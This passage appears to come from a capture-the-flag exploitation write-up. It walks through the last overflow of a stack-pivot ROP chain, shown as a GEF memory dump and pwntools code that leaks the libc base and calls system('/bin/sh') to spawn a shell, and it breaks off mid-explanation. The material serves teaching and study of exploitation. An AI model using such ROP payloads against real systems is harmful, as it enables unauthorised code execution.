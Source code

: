 ```python
(remote) gef➤  x/16xg 0x4047d0
0x4047d0:       0x0000000000000001      0x00007ffd67a78fd8
0x4047e0:       0x0000000000000001      0x0000000000000000
0x4047f0:       0x0000000000403dc8      0x00007ff222e6c000
0x404800:       0x0000000000404038      0x0000000000401221
0x404810:       0x6161616261616161      0x6161616461616163

0x404820:       0x0000000000404850      0x0000000000401205 --> here

0x404830:       0x0000000000000000      0x0000000000000000
0x404840:       0x0000000000000000      0x0000000000000000
0x404850:       0x0000000000000000      0x0000000000000000
0x404860:       0x0000000000000000      0x0000000000000000
```

The address `0x404850` is a null memory area within the `bss` section. The PoC creator ensures that the fourth payload will be placed at this address.

Remember, the payload calls `gets_gadget` again! This means that `leave_ret` will execute once more at the end of the execution.

### Final 3rd Overflow

The final payload is quite straightforward. Using the LIBC base address, it locates the `pop rdi; ret` gadget, the `/bin/sh\0` string, and the `system` gadget.

The buffer is then overflowed again. Subsequently, `RBP` is set to `0`, `rdi` is set to the "/bin/sh\0" string, `RSP` is aligned to 8 bytes with a `ret` gadget, and finally, `__libc_system` is called.

```python
libc.address = u64(io.recv()[:-1].ljust(0x8, b'\0')) - 0x2045c0
log.success('libc base @ %#x', libc.address)

rop = ROP(libc)
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
#
payload = flat({
    offset: [
        0,        # ---------------------> #0x404850
        pop_rdi,  # ---------------------> #0x404858
        next(libc.search(b'/bin/sh\0')),   #0x404860
        ret,      # ---------------------> #0x404868
        libc.sym.system                    #0x404870
    ]
})
#
input("Payload 4")
io.sendline(payload)
```

Here's a breakdown of the calculations and their impact on memory:

- The last `RBP` value was `0x404850`, which marks the start of the 4th payload.
    